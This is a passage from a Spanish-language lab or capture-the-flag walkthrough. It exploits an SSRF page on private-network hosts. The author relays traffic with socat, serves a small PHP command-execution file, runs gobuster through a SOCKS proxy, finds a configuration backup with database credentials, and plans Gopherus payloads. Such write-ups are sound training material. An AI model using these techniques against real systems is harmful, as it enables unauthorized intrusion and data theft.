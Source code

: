 Como vemos, hay un archivo `/internalResourceFeTcher.php` en la web y además en el mensaje hace referencia a que no se ponga ningún archivo backup de configuración por lo que podemos buscar por dichos archivos.

Si accedemos al archivo mencionado en la web vemos lo siguiente:
![[Pasted image 20240829163645.png]]

Si utilizamos este campo para apuntar a un servicio interno de la máquina como el HTTP vemos que muestra su contenido:
![[Pasted image 20240829163824.png]]

Como la web interpreta PHP podemos intentar apuntar a un archivo PHP malicioso de nuestra máquina para ver si se interpreta:
![[Pasted image 20240829163931.png]]

Como la máquina víctima no tiene conexión directa con nuestra máquina debemos de utilizar `socat` en la máquina "192.168.159.147" para que todo el tráfico de un puerto suyo lo mande para nuestro puerto 80:
![[Pasted image 20240829165153.png]]

En este caso estamos redirigiendo todo el tráfico del puerto 4343 de la máquina "192.168.159.147" a nuestra máquina "192.168.159.131" por el puerto 80. Por lo que si proporcionamos un servidor con Python proporcionando un archivo "cmd.php" con este contenido:
```php
<?php system('whoami'); ?>
```
![[Pasted image 20240829165351.png]]

Y lanzamos una solicitud desde la web a "http://10.10.0.128:4343/cmd.php" (equivalente a la 192.168.159.147) redirigirá la solicitud a nuestro puerto 80.
![[Pasted image 20240829165752.png]]

Pero como vemos el código PHP no se interpreta:
![[Pasted image 20240829165744.png]]

Si hacemos un descubrimiento de archivos mediante `gobuster` en el directorio `joomla` descubierto anteriormente, vemos el siguiente archivo:
```bash
gobuster dir -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -u "http://10.10.0.129/joomla/" -x php,php.bak --proxy socks5://127.0.0.1:1080
```
![[Pasted image 20240829170112.png]]

Como decía la nota anterior, hay una archivo de *backup* por lo que nos lo podemos descargar desde el navegador y revisarlo:
![[Pasted image 20240829170402.png]]

Como vemos se trata de una base de datos MySQL con usuario "goblin" y sin contraseña. Por lo que podemos utilizar la herramienta `Gopherus` para generar links que permitan enumerar la base de datos mediante el SSRF.
